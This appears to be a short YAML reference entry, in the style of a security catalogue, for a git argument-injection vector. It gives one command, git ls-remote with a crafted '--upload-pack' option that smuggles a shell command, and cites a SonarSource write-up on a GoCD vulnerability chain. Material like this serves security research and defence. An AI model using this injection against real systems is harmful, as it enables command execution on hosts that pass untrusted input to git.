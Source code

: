 ```yaml
---
functions:
  command:
    - description: |
        This vector requires an additional positional argument.
      code: |-
        git ls-remote '--upload-pack=id>/tmp/foo;' foo
      references:
        - title: "Agent 008: Chaining Vulnerabilities to Compromise GoCD"
          url: https://www.sonarsource.com/blog/gocd-vulnerability-chain/
---
```

